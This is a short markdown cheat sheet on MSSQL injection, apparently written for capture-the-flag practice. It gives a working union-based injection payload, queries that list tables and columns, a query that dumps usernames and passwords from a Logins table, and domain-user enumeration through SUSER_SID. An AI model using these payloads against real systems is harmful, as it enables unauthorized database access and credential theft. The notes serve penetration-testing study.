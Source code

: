 # MSSQL Injection

some hit for mssql injection

`LIMIT` function need to know the columns name.

## Like mysql function name 

`GROUP_CONCAT` --> `STRING_AGG`

## List Tables

```mssql
# NO WORK
SELECT STRING_AGG(name,",") FROM master..sysobjects WHERE xtype = 'U'

# WORK
SELECT STRING_AGG(name,',') FROM master..sysobjects WHERE xtype = 'U'

# Example

q=*' union select 1,   (select STRING_AGG(concat(name,':',id),'|') FROM streamio..sysobjects WHERE xtype = 'u')   ,3,4,5,6; -- -

```


## List Columns

Reference: https://www.mytecbits.com/microsoft/sql-server/list-of-column-names

```mssql
SELECT STRING_AGG(NAME,',') FROM SYS.COLUMNS WHERE object_id = OBJECT_ID('Hub_DB..Logins')

```
## Example

```mssql
# Dump id,username,password from HTB_DB..Logins
SELECT STRING_AGG(concat(id,',',username,',',password),'|') FROM Hub_DB..Logins
```

## It also can Enum user

```mssql
$ SELECT DEFAULT_DOMAIN()
MEGACORP
$ SELECT master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000


```

See: https://book.hacktricks.xyz/pentesting-web/sql-injection/mssql-injection#fn_xe_file_target_read_file